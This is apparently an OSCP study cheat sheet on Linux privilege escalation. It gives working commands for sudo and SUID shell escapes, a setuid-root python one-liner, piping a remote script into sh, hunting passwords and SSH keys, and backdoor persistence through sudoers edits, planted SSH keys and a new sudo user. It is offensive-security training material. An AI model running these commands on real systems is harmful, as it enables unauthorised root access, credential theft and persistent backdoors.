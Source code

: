 # Linux Privilege Escalation

Essential techniques for escalating privileges on Linux systems during OSCP.

## Quick Enumeration

### System Info
```bash
# Kernel and OS info
uname -a
cat /etc/issue
cat /etc/*-release

# CPU info
cat /proc/cpuinfo

# Memory info
free -h
```

### User Info
```bash
# Current user
id
whoami

# Other users
cat /etc/passwd
cat /etc/group

# Sudo privileges
sudo -l

# SUID files
find / -perm -4000 -type f 2>/dev/null
```

### Network Info
```bash
# Network config
ifconfig -a
ip a

# Network connections
netstat -tulpn
ss -tulpn

# Firewall rules
iptables -L
```

## Common Vectors

### Sudo Abuse
```bash
# Check sudo permissions
sudo -l

# If allowed to run specific commands:
sudo find / -exec /bin/sh \; -quit
sudo vim -c '!sh'
sudo awk 'BEGIN {system("/bin/sh")}'
```

### SUID Binaries
```bash
# Find SUID files
find / -perm -4000 -type f 2>/dev/null

# Known vulnerable SUIDs:
# - nmap (--interactive)
# - find (exec)
# - vim/vi
# - bash
# - less/more
# - nano
# - cp/mv

# Example with find:
find / -name test -exec /bin/sh \;
```

### World-Writable Files
```bash
# Find world-writable files
find / -writable -type f 2>/dev/null
find / -perm -2 -type f 2>/dev/null

# World-writable directories
find / -type d -perm -2 2>/dev/null
```

### Cron Jobs
```bash
# List cron jobs
ls -la /etc/cron*
ls -la /etc/cron*/*

# Check crontab
crontab -l
ls -la /var/spool/cron/crontabs/
```

### Capabilities
```bash
# Find files with capabilities
getcap -r / 2>/dev/null

# Example: If python has cap_setuid+ep
python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Automated Tools

### LinPEAS
```bash
# Download and run
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# If no curl/wget:
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Linux Exploit Suggester
```bash
# Download and run
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh
./les.sh
```

## Kernel Exploits

### Common Kernel Exploits
- DirtyCow (CVE-2016-5195)
- DirtyPipe (CVE-2022-0847)
- PwnKit (CVE-2021-4034)
- Sudo Baron Samedit (CVE-2021-3156)

### Check Kernel Version
```bash
uname -a
cat /proc/version
```

## Password Hunting

### History Files
```bash
# Check command history
cat ~/.bash_history
cat ~/.zsh_history

# Check other users' history
ls -la /home/*/.bash_history
```

### Config Files
```bash
# Look for passwords in config files
grep -r "password" /etc/ 2>/dev/null
grep -r "pass" /home/ 2>/dev/null
```

### SSH Keys
```bash
# Look for SSH keys
find / -name id_rsa 2>/dev/null
find / -name authorized_keys 2>/dev/null
```

## Container Escapes

### Check for Container
```bash
# Check if in a container
ls -la /.dockerenv
cat /proc/1/cgroup
```

### Common Escapes
- Mounted Docker Socket
- Privileged Container
- Kernel Exploits

## Post-Exploitation

### Add New User
```bash
# Add user to sudoers
echo "username ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# Or add to sudo group
usermod -aG sudo username
```

### SSH Backdoor
```bash
# Add SSH key to authorized_keys
echo "ssh-rsa AAAAB3..." >> ~/.ssh/authorized_keys

# Or create new user with SSH access
useradd -m -s /bin/bash hacker
passwd hacker
usermod -aG sudo hacker
```

## Quick Checks
1. **sudo -l**: Check sudo permissions
2. **SUID Files**: Find setuid binaries
3. **Cron Jobs**: Check for writable cron jobs
4. **Capabilities**: Check for dangerous capabilities
5. **Kernel**: Check for kernel exploits
6. **Passwords**: Check history and config files

## Practice
- HTB: Shocker, Nibbles
- TryHackMe: Linux Privesc
